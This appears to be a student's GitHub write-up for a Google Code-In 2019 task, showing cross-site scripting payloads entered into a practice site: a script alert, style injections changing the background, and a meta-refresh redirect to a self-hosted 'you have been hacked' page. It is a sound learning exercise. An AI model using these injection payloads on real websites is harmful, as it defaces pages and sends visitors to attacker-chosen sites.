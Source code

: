 # Detect the XSS Vulnerability (For Google Code-In)

Below are the details of the XSS attacks that I performed on https://gcixsstask.herokuapp.com/ for GCI 2019.

## Create Alert Box

To create an alert box I used the JavaScript `alert()` function. I entered the following code into the input box:

    <script>alert("HACKED")</script>

![Alert Box](./images/alert.png)


## Change Background Colour

I was able to change the background colour by entering `<style>` tags in the input box.

    <style>body {background-color: #f00}</style>

![Red background](./images/bg-colour.png)


## Change Background Image

I changed the background image by entering `<style>` tags in the input box like before.

    <style>body {background-image: url(http://www.ox.ac.uk/sites/files/oxford/styles/ow_medium_feature/public/field/field_image_main/shutterstock_1231106194.jpg?itok=7pjuEHcw)}</style>

![Background Image](./images/bg-image.png)


## Redirect To Another Website

First I created a website which I hosted on [HTML Pasta](https://htmlpasta.com/) at [this url](https://disclosingchamois.htmlpasta.com/). I added the following html to [index.html](./index.html).

    <!DOCTYPE html>
    <html>
        <head>
            <title>
                HACKED!
            </title>
            <style>
                body {
                    background-color: #000;
                    color: white;
                    font-size: #fff;
                    text-align: center;
                }
            </style>
        </head>
        <body>
            <h1>YOU HAVE BEEN HACKED</h1>
        </body>
    </html>

In order to redirect the user to the website, I entered the following in the input box:

    <meta http-equiv="refresh" content="0; url = https://disclosingchamois.htmlpasta.com" />

![Hacked redirect](./images/redirect.png)